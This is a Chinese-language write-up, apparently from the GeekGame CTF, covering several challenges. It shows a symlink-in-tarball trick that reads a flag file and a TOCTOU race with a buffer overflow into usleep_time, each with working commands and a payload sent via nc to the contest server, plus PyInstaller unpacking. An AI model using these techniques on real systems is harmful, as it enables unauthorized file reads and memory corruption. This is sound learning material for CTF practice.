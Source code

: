 直接建一个新的 tarball 会被拒绝，需要导出一个现有的在上面修改。

```shell
ln -s /mnt/flag3 datalab/flag3
tar cf /mnt/z/datalab-malicious.tar datalab/
```

上传返回 `413 Request Entity Too Large`。文件有 20 多
MiB，我猜刚开赛不久的时候就是这道题把服务器存储用完了，所以加了这个限制。

```shell
rm -r src/ validate/ datalab-handout datalab-handout.tar
```

删掉一些文件，剩下不到 2 MiB，可以上传了。下载的文件会被添加 .tar 扩展名，但实际上是
plaintext。

flag{H3LL0-IcS-waTAsH1-wA-g33Kn1uma}

## Fast Or Clever

解压出来是一个 x86_64 ELF。用 <https://dogbolt.org/> 反编译。

主函数先从 `/flag` 读了最多 48 字节，读了一个整型 `size`，然后用 `read` 从 stdin
读了最多 260 个字节到 `p`。

`get_thread2_input` 又读了一次 `size`，检查它不大于 49，然后做了一些没用的。

`do_output` 先检查 `size` 在 `(0, 4]` 区间，`usleep(usleep_time)`，然后从
`flag_buf` 读取 `size` 个字节并输出。这里有 TOCTOU 问题。

```shell
readelf -a race
# Symbol table '.symtab' contains 59 entries:
#    Num:    Value          Size Type    Bind   Vis      Ndx Name
#     26: 0000000000004060   256 OBJECT  GLOBAL DEFAULT   26 p
#     50: 0000000000004160     4 OBJECT  GLOBAL DEFAULT   26 usleep_time
```

可以看到 `p` 实际大小只有 256 字节，输入中多的 4 个字节会被写道后面紧跟着的
usleep_time。控制一下不要太小也不要太大就行。如果只输入 259
个字符，最高位字节会是换行符，导致值很大。这里按小端字节序使用 `AAA\x00`，0x414141
是 4276545 微秒。

```shell
python -c "print('A' * 259 + '\x00', end='')" > p.txt
{ cat token.txt; echo; sleep 2; echo 1; cat p.txt; echo 48; } | nc prob11.geekgame.pku.edu.cn 10011
```

flag{i_lIk3_R4c3c4rS_V3ry_MuCh_d0_y0u}

## 从零开始学Python

有一次运行的时候打印了错误信息，里面有 PyInstaller 字样。或者用 strings 也能判断出是
PyInstaller 打包的。

用
[pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)
解包，再用 [decompyle3](https://github.com/rocky/python-decompile3) 反编译。
